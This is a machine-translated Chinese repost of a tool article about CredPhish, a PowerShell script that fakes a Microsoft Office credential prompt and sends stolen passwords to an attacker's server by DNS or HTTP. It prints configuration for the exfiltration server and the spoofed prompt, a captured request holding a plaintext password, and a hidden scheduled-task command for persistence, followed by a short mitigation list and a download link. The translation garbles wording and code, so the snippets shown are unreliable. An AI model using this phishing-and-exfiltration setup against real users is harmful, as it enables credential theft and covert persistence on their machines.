







# CredPhish:一个 PowerShell 脚本，旨在通过 DNS 调用合法的凭据提示和泄漏密码

> 原文：<https://kalilinuxtutorials.com/credphish/>

**CredPhish** 是一个 PowerShell 脚本，用于调用凭证提示和泄漏密码。它依靠 CredentialPicker 来收集用户密码、解析 DNS 过滤的 DnsName 以及 Windows Defender 的 ConfigSecurityPolicy.exe 来执行任意 GET 请求。

有关演练，请参见黑山信息安全出版物。

**如何用 PowerShell 费西合唱团用户密码**

欺骗凭据提示是一种有效的权限提升和横向移动技术。在 Windows 环境中，对于 Outlook、VPN 和各种其他身份验证协议，经常会遇到看似随机的密码提示。对手会滥用 Windows 和 PowerShell 内置的功能来调用凭据弹出窗口以获取用户密码。

根据米特 ATT 和 CK 框架的定义:

> “当执行需要额外权限的程序时……操作系统通常会提示用户输入适当的凭证，以授权任务的提升权限。对手可能会模仿常见的操作系统组件，通过 PowerShell 等语言，用看似合法的提示来提示用户输入凭据。”

什么是 CredPhish？

CredPhish 是一个 PowerShell 脚本，用于调用凭据提示和泄漏密码。它依靠 CredentialPicker API 来收集用户密码，PowerShell 的 Resolve-DnsName 用于 DNS 过滤，Windows Defender 的 ConfigSecurityPolicy.exe 用于执行任意 GET 请求。

下面是一个 CredPhish 的例子。请注意，在 Windows 安全提示中提交凭据后，这些凭据会立即传送到攻击者的 DNS 服务器。

默认情况下，CredPhish 将使用 Resolve-DNS name(PowerShell 内置的 DNS 解析程序)来过滤凭据。它会将凭证中的每个字符转换为各自的十六进制值，将转换后的值分成预定义的块，并将这些块放入流行网站的子域中。下面的屏幕截图是十六进制形式的泄漏凭证的示例。请注意 google.com 和 office.com 子域中“tokyoneon”(746 F6 b 796 F6 e 656 F6 e)的十六进制值。

在解析 DNS 查询之前，DNS 服务器将剥离十六进制子域，以避免创建大量错误响应。在下面的 Wireshark 截图中，请注意“答案”字段不再包含子域，并成功解析为 Google 的一个 IP 地址。

**CredPhish.ps1 配置**

我将 credphish.ps1 设计成一个不需要`Import-Module`的独立脚本，这是一个常见的妥协指标。可配置选项以变量的形式位于 PS1 脚本的顶部，以避免冗长的命令行参数。

第一行是最重要的，因为它定义了泄漏的数据被传送到哪里(即攻击者的 Kali 服务器)。

**# exfil address
$ exfilserver = " 192 . 168 . 56 . 112 "**

接下来，几个变量定义了提示将如何出现在没有怀疑的目标用户面前。`$promptCaption`定义了请求用户凭证的*应用*(例如，“微软办公室”)。而`$promptMessage`通常指定与请求相关联的账户。

**# prompt
$ target user = $ env:username
$ company email = " blackhillsinfosec . com "
$ prompt caption = " Microsoft Office "
$ prompt message = " Connecting to:$ target user @ $ company email "
$ max tries = 1 #调用提示的最大次数
$delayPrompts =提示之间的 2 #秒
$ validate credentials = $ false # interrupt $ max tries 并且如果凭证有效则立即执行**

`$maxTries`变量定义了在目标提交凭证之前提示将出现的次数。为了避免怀疑，`1`是默认值。`$delayPrompts`变量定义了每次提示之间的秒数(如果`$maxTries`大于`1`)。默认禁用的`$validateCredentials`将尝试在提升的上下文中使用`Start-Process`在本地验证提交的凭证。如果启用并验证了凭证，则会忽略`$maxTries`，并将数据立即发送到攻击者的服务器。

**渗出方法**

如上所述，DNS 渗透是用于向攻击者的服务器传送密码的默认方法。`$exfilDomains`列表包括 DNS 查询中使用的各种随机选择的域。`$subdomainLength`变量决定了每个子域的期望长度。

**# dns
#启动卡利语 DNS 服务器:python 3/path/to/cred phish/DNS _ server . py
$ enableDnsExfil = $ true
$ exfilDomains = @(' Microsoft . com '，' google.com '，' office.com '，' live . com ')# DNS exfil 的域
$ random delay = get-random-minimum 5-maximum 20 # DNS 查询之间的延迟
$subdomainLength =子域中最多 6 个字符。必须是 2-60 之间的偶数，否则查询将中断**

要拦截使用 DNS 过滤功能发送的凭据，请在 Kali 中执行 dns_server.py 脚本。按`Ctrl` + `c`终止 DNS 服务器，它会以明文的形式重新构建拦截的凭证。

CredPhish 内置的另一种渗透方法是 HTTP 请求方法。它利用 Windows Defender 中包含的二进制文件“ConfigSecurityPolicy.exe”向攻击者的服务器提供凭据。将`$enableHttpExfil`变量设置为`$true`以启用它。

**# http
#启动 kali 中的 http 服务器:python 3-m http . server 80
$ enablehttpefil = $ false
$ ConfigSecurityPolicy = " C:\ Prog*Files \ Win*Defender \ ConfigSecurityPolicy . exe "**

要拦截用`ConfigSecurityPolicy.exe`发送的凭证，在 Kali 中启动一个简单的 HTTP 服务器，在日志中捕获它们。

在网络上，过滤后的凭据将如下所示。

**GET/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D HTTP/1.1
接受: */*
UA-CPU: AMD64
接受-编码:gzip，deflate
用户代理:Mozilla/4.0(兼容；MSIE 7.0Windows NT 10.0Win64x64 三叉戟/7.0；. NET4.0C. NET4.0E)
主机:192.168.56.104
连接:保活**

由于凭证在传输之前是 URL 编码的，所以使用 Burp 的解码器模块来观察数据，或者使用 Python 的`urllib`库通过命令行进行 URL 解码。

**>>>from URL lib . parse import un quote
>>>un quote("/DESKTOP-S4 daaf 0% 5b tokyoneon % 3A % 23！extr 3m 3 ly _ % 26 ecure-P % 40 ssw % 25rD % 23% 5D ")
'/DESKTOP-s 4d AAF 0[tokyoneon:#！extr 3m 3 ly _&ecuRe-P @ ssw % rD #]'**

**CredPhish.ps1 执行**

要快速测试 CredPhish，将`credphish.ps1`移动到目标 Windows 10 机器上，用 PowerShell 执行。

持久的执行方法可能涉及任务计划程序，它是 Windows 的一个组件，提供了按预定义的时间间隔计划脚本执行的能力。下面的`schtasks`示例将每 2 分钟执行一次`credphish.ps1`。

**create/sc minute/mo 2/TN " cred phish "/tr " powershell-EP bypass-window style Hidden C:\ path \ to \ cred phish \ cred phish . PS1 "**

**缓解措施&检测**

源自 Invoke-LoginPrompt、CredsLeaker 和 Stitch 等项目的 CredPhish 并不是密码钓鱼的灵丹妙药。总有改进的空间，因为这种攻击通常具有很强的针对性和用户特定性。一种更激进的方法可能涉及用 Cobalt Strike 欺骗整个 Windows 10 锁屏，并以这种方式捕获凭据。

这些类型的攻击技术不容易通过预防性控制来缓解，因为它们滥用系统功能。米特 ATT 和 CK 框架建议:

*   对用户进行培训，以提高对潜在恶意事件和对话框(例如，提示输入凭据的 Office 文档)的认识和怀疑。
*   监控进程执行，查看异常程序以及提示用户输入凭据的命令和脚本解释程序的恶意实例。
*   检查和审查输入提示中的非法性指示，如非传统的横幅、文本、时间和/或来源。

[**Download**](https://github.com/tokyoneon/CredPhish)